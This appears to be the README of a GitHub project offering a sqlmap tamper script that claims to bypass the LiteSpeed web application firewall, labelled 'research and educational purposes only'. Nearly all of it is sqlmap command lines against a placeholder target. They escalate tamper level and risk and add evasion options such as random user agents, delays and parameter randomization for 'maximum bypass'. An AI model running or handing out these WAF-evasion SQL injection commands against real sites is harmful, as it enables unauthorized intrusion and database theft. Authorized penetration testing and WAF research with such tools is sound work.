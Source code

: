 # Lol-Speed SQLMAP Tamper
Universal LiteSpeed WAF Bypass Tamper Script Comprehensive evasion techniques collection Research and educational purposes only by Zzl0y

# Basic usage
Level 1 (automatic)
sqlmap -u "http://target/vuln.php?id=1" --tamper lol-speed

Force Level 3
sqlmap -u "http://target/vuln.php?id=1" --tamper lol-speed --level 3

Maximum Level 5
sqlmap -u "http://target/vuln.php?id=1" --tamper lol-speed_advanced --level 5 --risk 3


# Adaptive testing
Automatic escalation on blocking
sqlmap -u "http://target/vuln.php?id=1" \
       --tamper=litespeed_advanced \
       --level=1 \
       --batch \
       --smart \
       --randomize=id

# Combining with other tamper scripts
sqlmap -u "http://target/vuln.php?id=1" \
       --tamper=litespeed_advanced,between,randomcase \
       --level=3 \
       --risk=2

# Configuration for Testing
Full configuration for maximum bypass
sqlmap -u "http://target/vuln.php?id=1" \
       --tamper=litespeed_advanced \
       --level=5 \
       --risk=3 \
       --technique=BEUSTQ \
       --threads=1 \
       --delay=2 \
       --timeout=30 \
       --retries=5 \
       --randomize=id \
       --random-agent \
       --keep-alive \
       --null-connection \
       --flush-session \
       --batch
